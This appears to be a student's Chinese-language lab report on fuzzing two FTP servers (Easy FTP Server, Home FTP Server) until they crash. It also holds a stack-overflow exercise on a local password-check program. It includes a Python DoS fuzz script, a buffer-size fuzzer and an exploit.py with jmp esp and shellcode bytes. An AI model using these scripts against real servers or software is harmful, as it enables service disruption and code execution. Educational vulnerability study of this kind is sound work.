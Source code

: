```yaml
---
title: 漏洞挖掘与模糊测试 date: 2019-11-29 0:06:38 tags:

- "网络空间安全"
- "软件安全"
  categories:
- ["实验","软件安全"]
- ["漏洞","拒绝服务"]
  comments: true

---
```


## 目标

了解fuzz原理，使用此方法模糊测试两种ftp服务器软件的漏洞，使其停止工作。
<!-- more -->

## 测试步骤与结果

### Easy FTP Server的Fuzz过程（FtpFuzz工具法）

1. 打开 Easy FTP Server3.1，点击Start开始服务。 {% asset_img 1.png %}
2. 打开FTP Fuzzer，把USER和PASS的参数改为`anonymous`
   {% note warning %} 不要选中右上角的Fuzz this FTP command {% endnote %} {% grouppicture 2-2 %} {% asset_img 2.png %} {%
   asset_img 3.png %} {% endgrouppicture %}
3. 配置fuzz所用的脏数据，我们的目标是`LIST`指令。 {% grouppicture 2-2 %} {% asset_img 4.png "这回要选中Fuzz this FTP command" %} {% asset_img
   5.png "配置fuzzing data 为..?" %} {% endgrouppicture %}
4. 设置好服务器地址和端口，然后点击start开始。 {% asset_img 6.png %} {% asset_img 7.png %}
5. 在输出中时不时观察到有425错误：不能打开数据连接产生 {% asset_img 8.png %}
6. 出现红色的输出代表着FTP服务器已经宕机 {% asset_img 9.png %} {% asset_img 10.png "服务器端报错印证了这一点" %}
7. 查看同目录下的`ftptrace.txt`，发现是因为输入的命令过长，导致了服务器处理命令时缓冲区溢出，服务宕机。 {% asset_img 11.png %}

### Home FTP Server的Fuzz过程（python脚本法）

{% note fuzz源码 %}

```python fuzz.py
import socket,sys
def ftp_test(ip,port1):
    target = ip
    port = port1
    buf = 'a'*272
    j=1
    fuzzcmd = ['mdelete ','cd ','mkdir ','delete ','cwd ','mdir ','mput ','mls ','rename ','site index ']
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        connct = s.connect((target,port))
        print "[+] Connected!"
    except:
        print "[!] Connection Failed!"
        sys.exit(0)
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS 123456\r\n')
    s.recv(1024)
    print "[+] Sending payload..."
    for i in fuzzcmd:
        s.send(i + buf*j + '\r\n')
        s.send(i + buf*j*4 + '\r\n')
        s.send(i + buf*j*8 + '\r\n')
        s.send(i + buf*j*40 + '\r\n')
        try:
            s.recv(1024)
            print "[!] Fuzz failed!"
        except:
            print "[+] Maybe we find a bug!"

if __name__ == '__main__':
    ftp_test("127.0.0.1",21)
```

{% endnote %}

1. 首先让ollydbg附加进程到ftpserver上 {% asset_img 12.png %}
2. 运行脚本，发现全部输出了`fuzz failed`，但与此同时，ftp服务也停止了。下一次再运行脚本，就会输出`Connection failed`。 {% grouppicture 3-3 %} {% asset_img
   13.png "fuzz failed" %} {% asset_img 16.png "connection failed" %} {% asset_img 15.png "服务也停止了" %} {% endgrouppicture
   %}
3. 查看system log，发现其在接收两次过长参数的`site index`垃圾指令后停止运行。 {% asset_img 17.png %}
4. Homeftpserver发生崩溃时，跳转到`KERNEL32.77399ED8`时产生了异常`0EEDFADE`。 {% asset_img 14.png "系统异常" %}

## 测试结论

* 2.1实际上复现了Quick’n Easy FTP Server Lite Version 3.1远程拒绝服务漏洞[^1]，FTP协议中的`LIST`命令后的用户数据长度如果超过232，同时最后字符以`?`结尾，就会造成这个程序的崩溃。

* 2.2可以通过自己编写的fuzz代码实现对ftp服务器发送脏数据包以实现fuzz攻击，达到让目标服务器崩溃的效果。虽然可以找到崩溃的位置，但本次实验未能探究到崩溃的原因。

## 思考题

1. 初次运行结果如下，用IDA32位打开源程序进行逆向分析。 {% asset_img 思考-1.png %}
2. 整体过程就是加载`user32.dll`，打开`password.txt`读出内容，然后与`"1234567"`作比较，若相等，则通过验证。我们可以看到在`sub_401030`有一个无界写入有界的`strcpy`
   操作，很容易发生溢出，那么我们要怎么知道在什么时候发生溢出呢？ {% note info %} sub_401005仅仅是跳转到了sub_401030 {% endnote %} {% asset_img 思考-2.png %} {%
   asset_img 思考-3.png %}
3. 首先通过fuzz计算“缓冲区”大小。每次向里填充一个字符，最终计算出我们需要填充字符的数量为`11940`比特。在填充满之前，会引发右图所示错误，注意到其中有提示`"ESP was not properly saved"`
   ，说明ESP可能被覆盖掉了 {% note fuzz源码 %}

```python fuzz.py
import os

rpwd = "Congratulation! You have passed the verification!\n"
wpwd = "incorrect password!\n"

def write_file(num):
    with open("password.txt","w+") as fp:
        fp.write("a"*num)
def get_output():
    p=os.popen("overflow_exe.exe")
    return "".join(p.readlines())

def is_valid_output(output):
    try:
        return output in (rpwd,wpwd)
    except:
        return False

def fuzz():
    i = 100
    breakout_num = 0
    for i in range(100,20000,100):
        write_file(i)
        if is_valid_output(get_output()):
            print "[+] Writing {} letters to password.txt".format(i)
            continue
        else:
            for j in range(i-100,i,10):
                write_file(j)
                if is_valid_output(get_output()):
                    print "[+] Writing {} letters to password.txt".format(j)
                    continue
                else:
                    for k in range(j-10,j+1):
                        write_file(k)
                        if is_valid_output(get_output()):
                            print "[+] Writing {} letters to password.txt".format(k)
                            breakout_num=k
                            continue
                        else:
                            breakout_num=k
                            break
                        break
                break
        break
    print "[*] The program broke up after %d bytes of 'a's."%breakout_num
```

{% endnote %} {% grouppicture 2-2 %} {% asset_img 思考-4.png %} {% asset_img 思考-9.png %} {% endgrouppicture %}

4. 还有一个缓冲区？通过ollydbg调试可以看到在检验密码的函数中有一个`MOV,EAX 2EE4`操作，中间取了`[EBP-2EE4]`的有效地址，后面还有一个`ADD,ESP 2EE4`
   操作，可以推断这是再开辟另一块缓冲区，大小为十进制的`12004`字节。 {% asset_img 思考-7.png %}
5. 此时EBP的值为`0x35f20`。 {% asset_img 思考-8.png %}
6. 我们输入的“密码”被复制到了`0x3307c`开头的地址上。`0x35f20-0x3307c=11940`(10进制)，与之前fuzz结果相同，说明`11940`字节一旦占满，程序就会崩溃 {% asset_img 思考-6.png
   %} {% grouppicture 2-2 %} {% asset_img 思考-10.png %} {% asset_img 思考-11.png %} {% endgrouppicture %}
7. 上图是当`11940`个`"a"`被复制时，栈上的情况。可以看到`0x35f20`中的末两位被`11940`个`"a"`字符串的末尾`\0`所占，导致返回地址错误，程序崩溃 {% asset_img 思考-12.png %}
8. 所以这个缓冲区的大小为`11940-4（32位系统的ebp大小）=11936`字节。一旦缓冲区大小被计算出来，就可以根据前几次作业中缓冲区溢出的知识来通过“验证”。
9. 这次仍然利用`jmp esp`地址`77f8948b`作为跳板 {% asset_img 思考-5.png %}
10. Payload最终格式为：填充物（11940个a含4字节ebp）+`jmp_esp`地址+shellcode(`jmp 00401147`) 。构造password文档如下

```python exploit.py
def final_leak():
    shellcode = "\xe9\x1a\xb2\x3c\x00\x90\x90\x90"
    fill_in = "a"*11940+"b"*4
    with open("password.txt","w") as f:
        f.write(fill_in+jmp_esp+shellcode)
```

{% note warning %}

* 但是执行这个shellcode过后跳到了旁边的地址上，没有成功通过验证。只能在跳到`esp`地址后通过修改汇编以跳入验证成功语句中。
* 可能是指令在执行的过程中遇见了坏字符导致其在内存中的值发生了变化，致使执行不成功。
* 但是可以成功溢出，因为在调试的时候已经发现可以陷入内核中，从jmp esp地址中返回程序，shellcode被成功解析了。 {% asset_img 思考-13.png %} {% endnote %}

[^1]: [Quick 'n Easy FTP Server Lite 3.1 - Denial of Service](https://www.exploit-db.com/exploits/12853)
